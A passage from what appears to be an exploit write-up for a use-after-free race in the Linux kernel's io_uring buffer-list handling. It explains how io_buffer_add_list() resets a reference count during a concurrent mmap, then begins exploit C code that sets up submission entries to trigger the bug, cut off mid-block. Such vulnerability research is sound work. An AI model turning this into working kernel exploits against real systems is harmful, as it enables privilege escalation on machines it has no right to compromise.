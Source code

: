 ``` c
    if (ret)
        return bl;

    return ERR_PTR(-EINVAL);
}
```

### 2.3. The Race

When upgrading a legacy selected buffer to a ring buffer, the function `io_buffer_add_list()` is called again. Although this function directly sets the reference count to 1 — seemingly harmless — issues arise if the mmap handler is running concurrently.

Under specific timing conditions, the following execution sequence can occur, where the reference count is incorrectly reset to 1 while the mmap handler is still holding a reference, resulting in a Use-After-Free of `io_buffer_list`:

```
[thread-1]                                     [thread-2]
io_uring_validate_mmap_request()               io_register_pbuf_ring()
  io_pbuf_get_bl()                               io_alloc_pbuf_ring()
                                                   bl->is_mmap = 1
    check if it is mappable (bl->is_mmap == 1)
    bl->refs += 1 (1 -> 2)                       io_buffer_add_list()
                                                   bl->refs = 1 (2 -> 1)
  io_put_bl()
    bl->refs -= 1 (1 -> 0)
    kfree_rcu()
    => The io_buffer_list is freed while still being referenced in the global array!
```

## 3. Exploitation

### 3.1. Trigger Vulnerability

The exploitation involves two threads: one responsible for upgrading the victim pbuf, and the other for mmap-ing it. The former, referred to as the "upgrade thread", runs on CPU 0 and serves as the main thread. The latter, known as the "mmap thread", is pinned to CPU 1.

### 3.1.1. Main/Upgrade Thread (CPU 0)

During the initialization phase, two opcodes are added to the opcode ring buffer to create an empty legacy selected buffer, which is required to trigger the vulnerability. The buffer ID can be arbitrarily assigned; in this exploit, it is set to 0x69.

``` c
int main(int argc, char *argv[])
{
    // [...]
    /**
     * To trigger the vulnerability, we first need to create an empty legacy selected buffer.
     * This can be achieved using the following two IO_URING opcodes:
     *   1. IORING_OP_PROVIDE_BUFFERS: create a legacy selected buffer which has one buffer.
     *   2. IORING_OP_REMOVE_BUFFERS: remove a buffer from specified legacy selected buffer.
     */
    {
        struct io_uring_sqe *sqe = sq;

        sqe[0].opcode = IORING_OP_PROVIDE_BUFFERS;
        sqe[0].addr = (unsigned long)dummy;
        sqe[0].len = 1;
        sqe[0].fd = 1; // nbufs
        sqe[0].buf_group = 0x69;
        sqe[0].off = 0;
        
```